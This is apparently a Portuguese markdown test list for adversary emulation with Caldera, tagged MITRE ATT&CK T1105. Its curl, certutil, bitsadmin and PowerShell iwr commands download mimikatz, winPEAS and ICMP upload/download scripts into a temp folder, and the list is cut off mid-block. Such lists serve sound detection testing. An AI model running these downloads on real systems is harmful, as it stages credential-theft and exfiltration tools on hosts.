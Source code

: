 - Teste de download de arquivos/scripts 
  
  - `CMD`
    - CURL [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
      ```cmd
      curl -k -s -L https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat -o %tmp%\caldera\downloads\winPEAS_curl.bat
      curl -k -s -L https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 -o %tmp%\caldera\downloads\Invoke-IcmpDownload_curl.ps1
      curl -k -s -L https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 -o %tmp%\caldera\downloads\Invoke-IcmpUpload_curl.ps1
      curl -k -s -L https://github.com/microsoft/etl2pcapng/releases/download/v1.10.0/etl2pcapng.exe -o %tmp%\caldera\downloads\etl2pcapng_curl.exe
      curl -k -s -L https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimikatz.exe -o %tmp%\caldera\downloads\mimikatz_curl.exe
      curl -k -s -L https://gist.githubusercontent.com/hardw00t/302790bea71d8ff42aeb3d1e102007d1/raw/b78d3aee5d79a2db20f55e90e11100ed6293c18e/mimikatz.js -o %tmp%\caldera\downloads\mimikatzjs_curl.exe
      ```
    
    - Certutil [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
      ```cmd
      certutil.exe -urlcache -f https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat %tmp%\caldera\downloads\winPEAS_certutil.bat
      certutil.exe -urlcache -f https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 %tmp%\caldera\downloads\Invoke-IcmpDownload_certutil.ps1
      certutil.exe -urlcache -f https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 %tmp%\caldera\downloads\Invoke-IcmpUpload_certutil.ps1
      certutil.exe -urlcache -f https://github.com/microsoft/etl2pcapng/releases/download/v1.10.0/etl2pcapng.exe %tmp%\caldera\downloads\etl2pcapng_certutil.exe
      certutil.exe -urlcache -f https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimikatz.exe %tmp%\caldera\downloads\mimikatz_certutil.exe
      certutil.exe -urlcache -f https://gist.githubusercontent.com/hardw00t/302790bea71d8ff42aeb3d1e102007d1/raw/b78d3aee5d79a2db20f55e90e11100ed6293c18e/mimikatz.js %tmp%\caldera\downloads\mimikatzjs_certutil.exe
      ```
    
    - Bitsadmin [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
      ```cmd
      bitsadmin.exe /transfer downloadfileteste /download /priority normal https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat %tmp%\caldera\downloads\winPEAS_bitsadmin.bat
      bitsadmin.exe /transfer downloadfileteste /download /priority normal https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 %tmp%\caldera\downloads\Invoke-IcmpDownload_bitsadmin.ps1
      bitsadmin.exe /transfer downloadfileteste /download /priority normal https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 %tmp%\caldera\downloads\Invoke-IcmpUpload_bitsadmin.ps1
      ```
  
  - `POWERSHELL`
    - IWR [[`Command-and-control:T1105:Ingress Tool Transfer`](https://attack.mitre.org/techniques/T1105/)]
    ```powershell
    iwr -useb https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASbat/winPEAS.bat -OutFile $env:TMP\caldera\downloads\winPEAS_iwr.bat
    iwr -useb https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpDownload.ps1 -OutFile $env:TMP\caldera\downloads\Invoke-IcmpDownload_iwr.ps1
    iwr -useb https://raw.githubusercontent.com/icyguider/ICMP-TransferTools/main/Invoke-IcmpUpload.ps1 -OutFile $env:TMP\caldera\downloads\Invoke-IcmpUpload_iwr.ps1
    iwr -useb https://github.com/microsoft/etl2pcapng/releases/download/v1.10.0/etl2pcapng.exe -OutFile $env:TMP\caldera\downloads\etl2pcapng_iwr.exe
    iwr -useb https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimikatz.exe -OutFile $env:TMP\caldera\downloads\mimikatz_iwr.exe